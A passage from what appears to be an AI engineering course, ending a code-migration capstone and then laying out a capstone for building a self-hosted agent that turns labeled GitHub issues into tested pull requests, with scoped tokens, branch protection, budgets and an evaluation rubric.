5. Measure time-to-first-green-build (TTFGB) as a UX metric. Target: p50 under 10 minutes.

## Key Terms

| Term | What people say | What it actually means |
|------|-----------------|------------------------|
| Deterministic substrate | "Recipe engine" | OpenRewrite / libcst: declarative AST rewrites with safety guarantees |
| Codemod | "Code-modifying program" | A rewrite rule that changes source code mechanically |
| Build drift | "Tool version skew" | Subtle Maven / Gradle / uv behavior changes between major versions |
| Failure class | "Taxonomy bucket" | A labeled reason a repo did not migrate: dep, syntax, test, build-tool, budget |
| Coverage delta | "Coverage preservation" | Change in test coverage % from base to migrated branch |
| Agent turn | "Tool-call round" | One plan -> act -> observe cycle in the agent loop |
| Budget exhaustion | "Hit the ceiling" | The repo consumed its 30-min / $8 / 20-turn limit without passing |

## Further Reading

- [Amazon MigrationBench](https://aws.amazon.com/blogs/devops/amazon-introduces-two-benchmark-datasets-for-evaluating-ai-agents-ability-on-code-migration/)
- [Moderne.io OpenRewrite platform](https://www.moderne.io)
- [OpenRewrite documentation](https://docs.openrewrite.org)
- [Grit.io](https://www.grit.io)
- [OpenAI sandboxed migration cookbook](https://developers.openai.com/cookbook/examples/agents_sdk/sandboxed-code-migration/sandboxed_code_migration_agent)
- [Google App Engine Py2 to Py3 migrator](https://cloud.google.com/appengine)
- [libcst](https://github.com/Instagram/LibCST)
- [Daytona sandboxes](https://daytona.io)

[Reference](https://github.com/rohitg00/ai-engineering-from-scratch/tree/main/phases/19-capstone-projects/09-code-migration-agent)

---

## Part 5 (ch432): GitHub Issue-to-PR Autonomous Agent

> AWS Remote SWE Agents, Cursor Background Agents, OpenAI Codex cloud, and Google Jules all ship the same 2026 product shape: label an issue, get a PR. Run an agent in a cloud sandbox, verify tests pass, and post a review-ready PR with rationale. The hard parts are reproducing the repo's build environment automatically, preventing credential leakage, enforcing per-repo budgets, and making sure the agent cannot force-push. This capstone builds the self-hosted version and compares it on cost and pass rate to the hosted alternatives.

**Type:** Capstone
**Languages:** Python (agent), TypeScript (GitHub App), YAML (Actions)
**Prerequisites:** Phase 11 (LLM engineering), Phase 13 (tools), Phase 14 (agents), Phase 15 (autonomous), Phase 17 (infrastructure)
**Time:** 30 hours

## Problem

The async cloud coding agent is a separate product category from interactive coding agents (capstone 01). The UX is a GitHub label. You label an issue `@agent fix this`, a worker spins up in a cloud sandbox, clones the repo, runs tests, edits files, verifies, and opens a PR with the agent's rationale in the body. No interactive loop, no terminal. AWS Remote SWE Agents, Cursor Background Agents, OpenAI Codex cloud, Google Jules, and Factory Droids all converge on this.

The engineering challenges are concrete: environment reproduction (the agent has to build the repo from scratch without a cached dev image), flaky tests (must be re-run or isolated), credential scoping (a GitHub App with minimal fine-grained permissions), budget enforcement per repo per day, and no-force-push policy. The capstone measures pass rate, cost, and safety vs the hosted alternatives.

## Concept

The trigger is a GitHub webhook (issue label or PR comment). A dispatcher enqueues work to ECS Fargate or Lambda. The worker pulls the repo into a Daytona or E2B sandbox with a generic Dockerfile inferred from the repo (language, framework). The agent runs a mini-swe-agent or SWE-agent v2 loop against Claude Opus 4.7 or GPT-5.4-Codex. It iterates: read code, propose fix, apply patch, run tests.

Verification is the gating step. Full CI must pass in the sandbox before the PR opens. Coverage delta is computed; if negative beyond a threshold, the PR opens but gets labeled `needs-review`. The agent posts the rationale as the PR description plus an `@agent` thread the reviewer can ping for follow-ups.

Safety is scoped through two different GitHub surfaces: the App provides a short-lived installation token with `workflows: read` and narrow repo contents/PR scopes; branch protection (not app permissions) enforces "no direct writes to `main`" and "no force-push" — the app is never added to the bypass list. Path-scoped read-only access to `.github/workflows` is not a real GitHub App primitive, so the agent's allow-list on file edits has to enforce that at the worker. Budget ceilings per repo per day are enforced at the dispatcher (e.g., max 5 PRs per repo per day, $20 per PR).

## Architecture



## Stack

- Trigger: GitHub App with fine-grained token; webhook receiver via Lambda or Fly.io
- Worker: ECS Fargate task (or GitHub Actions self-hosted runner)
- Sandbox: Daytona devcontainer or E2B sandbox per task
- Agent loop: mini-swe-agent baseline or SWE-agent v2 over Claude Opus 4.7 / GPT-5.4-Codex
- Retrieval: tree-sitter repo-map + ripgrep
- Verification: full CI in-sandbox + coverage delta gate
- Observability: Langfuse with per-PR trace archive linked from the PR body
- Budget: per-repo daily dollar ceiling; max PRs per repo per day

## Build It

1. **GitHub App.** Fine-grained installation token: issues read+write, pull_requests write, contents read+write, workflows read. Branch protection (the only surface that can do this) enforces "no direct push to `main`" and "no force-push"; the app is not in the bypass list. The worker enforces "no writes under `.github/workflows`" as an allow-list check on the proposed diff, since GitHub App permissions are not path-scoped.

2. **Webhook receiver.** Lambda function accepts issue label / PR comment webhooks. Filters by label `@agent fix this`. Enqueues to SQS.

3. **Dispatcher.** Pops tasks from SQS. Enforces per-repo per-day budget. Spins up an ECS Fargate task with the repo URL, issue body, and a fresh Daytona sandbox.

4. **Environment inference.** Detect language (Python, Node, Go, Rust) and package manager (uv, pnpm, go mod, cargo). Generate a Dockerfile on the fly if one does not exist.

5. **Agent loop.** mini-swe-agent or SWE-agent v2 with Claude Opus 4.7. Tools: ripgrep, tree-sitter repo-map, read_file, edit_file, run_tests, git. Hard limits: $20 cost, 30 min wall-clock, 30 agent turns.

6. **Verification.** After the loop concludes, run the full test suite in-sandbox. Compute coverage delta via jacoco / coverage.py. If CI red: halt, do not open PR. If coverage drops more than 2%: open PR with `needs-review` label.

7. **PR posting.** Push the agent branch. Open PR via GitHub API with: title, rationale, diff summary, trace URL, cost, turns.

8. **Credential hygiene.** Worker runs with a short-lived GitHub App installation token. Logs are scrubbed for secrets before archival.

9. **Eval.** 30 seeded internal issues of varying difficulty. Measure pass rate, PR quality (diff size, style, coverage), cost, latency. Compare with Cursor Background Agents and AWS Remote SWE Agents on the same issues.

## Use It

```console
# on github.com
  - user labels issue #842 with `@agent fix this`
  - PR #1903 appears 14 minutes later
  - body:
    > Fixed NPE in widget.dedupe() caused by null comparator entry.
    > Added regression test widget_test.go::TestDedupeNullComparator.
    > Coverage delta: +0.12%
    > Turns: 7  Cost: $1.80  Trace: langfuse:...
    > Label: needs-review
```

## Ship It

`outputs/skill-issue-to-pr.md` is the deliverable. A GitHub App + async cloud worker that turns labeled issues into review-ready PRs with bounded cost and scoped credentials.

| Weight | Criterion | How it is measured |
|:-:|---|---|
| 25 | Pass rate on 30 issues | End-to-end success (CI green + coverage OK) |
| 20 | PR quality | Diff size, coverage delta, style conformance |
| 20 | Cost and latency per resolved issue | $ and wall-clock per PR |
| 20 | Safety | Scoped token, per-repo budget, no force-push, credential hygiene |
| 15 | Operator UX | Rationale comments, retry affordance, @-mention follow-up |
| **100** | | |

## Exercises

1. Add a "fix flaky test" mode: the label `@agent stabilize-flake TestX` runs the test 50 times in-sandbox and proposes a minimal change that stabilizes it.

2. Compare cost vs Cursor Background Agents on three shared issues. Report which tools win where.

3. Implement a budget dashboard: per-repo per-day cost, per-user cost. Alert on anomaly.

4. Build a "dry-run" mode that opens a draft PR without running CI, so reviewers can examine the plan cheap.

5. Add a retention policy: PR branches older than 7 days without merge get deleted automatically.

## Key Terms

| Term | What people say | What it actually means |
|------|-----------------|------------------------|
| GitHub App | "Scoped bot identity" | App with fine-grained permissions + short-lived installation token |
| Async cloud agent | "Background agent" | Non-interactive worker that runs in a cloud sandbox, not a terminal |
| Environment inference | "Dockerfile synthesis" | Detect language + package manager, generate a Dockerfile if absent |
| Verification | "CI-in-sandbox" | Run the full test suite inside the worker before opening a PR |
| Coverage delta | "Coverage preservation" | Change in test coverage % from base to agent branch |
| Per-repo budget | "Daily ceiling" | Dollar and PR-count cap enforced at the dispatcher |
| Rationale | "PR body explanation" | Agent's summary of what changed and why; required in the PR body |

## Further Reading

- [AWS Remote SWE Agents](https://github.com/aws-samples/remote-swe-agents)
- [SWE-agent](https://github.com/SWE-agent/SWE-agent)
- [Cursor Background Agents](https://docs.cursor.com/background-agent)
- [OpenAI Codex (cloud)](https://openai.com/codex)
- [Google Jules](https://jules.google)
- [Factory Droids](https://www.factory.ai)
- [GitHub App documentation](https://docs.github.com/en/apps)
- [Daytona cloud sandboxes](https://daytona.io)

[Reference](https://github.com/rohitg00/ai-engineering-from-scratch/tree/main/phases/19-capstone-projects/16-github-issue-to-pr-agent)
